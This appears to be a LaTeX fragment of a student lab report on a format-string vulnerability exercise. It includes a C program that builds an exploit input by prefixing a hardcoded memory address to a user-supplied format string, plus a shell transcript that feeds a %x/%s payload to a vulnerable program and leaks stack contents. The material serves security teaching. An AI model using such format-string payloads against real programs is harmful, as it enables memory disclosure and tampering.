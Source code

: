 \documentclass[12pt, a4paper, pdflatex]{article}
\begin{document}
\vspace{1em}
\lstset{
	captionpos=b,
	frame=single,
	language=C,
	caption=Example of overwriting memory with a specified value,
	label=printf:writefilec,
	breaklines=true,
}
\begin{lstlisting}
#include <sys/stat.h>
#include <fcntl.h>
int main()
{
	char buf[1000];
	int fp, size;
	unsigned int *address;
	/* Putting any number you like at the beginning of the format string */
	address = (unsigned int *) buf;
	
	/* Put address of secret[1] in first four bytes */
	*address = 0x0804b01c;
	
	/* Getting the rest of the format string */
	scanf("%s", buf+4);
	size = strlen(buf+4) + 4;
	printf("The string length is %d\n", size);
	
	/* Writing buf to "mystring" */
	fp = open("mystring", O_RDWR | O_CREAT | O_TRUNC, S_IRUSR | S_IWUSR);
	if (fp != -1) {
		write(fp, buf, size);
		close(fp);
	} else {
		printf("Open failed!\n");
	}
}
\end{lstlisting}

In order to execute this task we had to disable virtual address space randomization, so that at every consecutive execution of our program the memory addresses of the \texttt{secret} would stay exactly the same. We needed the address to stay to same, in order to run the vulnerable program once, take note of the address, run our program \texttt{write\_string} that creates a file to be used as input, and run vulnerable program again and be sure that the address space is exactly as during previous run.
After turning off address randomization, we had to add an extra memory allocation to the vulnerable program, because the address we were given contained \texttt{0x0C} character which is 'form feed' symbol in ASCII, and \texttt{printf} would not treat entire address as a single value.

\vspace{1em}
\lstset{
	captionpos=b,
	frame=single,
	language=BASH,
	caption=Example of printing memory using a file as standard input,
	label=printf:writefile1,
	breaklines=true,
}
\begin{lstlisting}
seed@seed-desktop:~/cwk2$ ./write_string
%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%s
The string length is 36
seed@seed-desktop:~/cwk2$ ./vul < mystring
The variable secret’s address is 0xbffff4e8 (on stack)
The variable secret’s value is 0x 804b018 (on heap)
secret[0]’s address is 0x 804b018 (on heap)
secret[1]’s address is 0x 804b01c (on heap)
Please enter a string
bffff4ec.bffff560.bffff554.bffff5f4.0.0.bffff5a0.b7fff670.80482bf.804b018.U
The original secrets: 0x44 -- 0x55
The new secrets:      0x44 -- 0x55
\end{lstlisting}
\end{document}
